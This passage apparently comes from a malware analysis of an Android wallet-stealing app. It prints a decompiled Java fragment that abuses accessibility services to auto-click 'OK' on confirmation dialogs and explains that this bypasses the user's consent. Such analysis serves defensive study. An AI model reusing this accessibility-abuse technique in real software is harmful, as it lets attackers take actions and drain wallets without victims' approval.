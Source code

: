 ![Fig 10. Confirmation of WalletInfoActivity being targeted](image%208.png)

Fig 10. Confirmation of WalletInfoActivity being targeted

---

### 2d. Dialog Handling

```java
if (event.getClassName().toString().equals("androidx.appcompat.app.AlertDialog")) {
    try {
        nodeInfo.findAccessibilityNodeInfosByText("OK")
                .get(0).performAction(16);
        f3471b = false;
        return;
    } catch (Exception e3) {
        return;
    }
}

```

**What it does:**

- **Auto-confirms** dialogs by clicking **“OK”** to bypass confirmation without user’s consent. ****
- Resets the state `f3471b` flag.

---

### 2e. `AddWalletActivity` - Cleanup
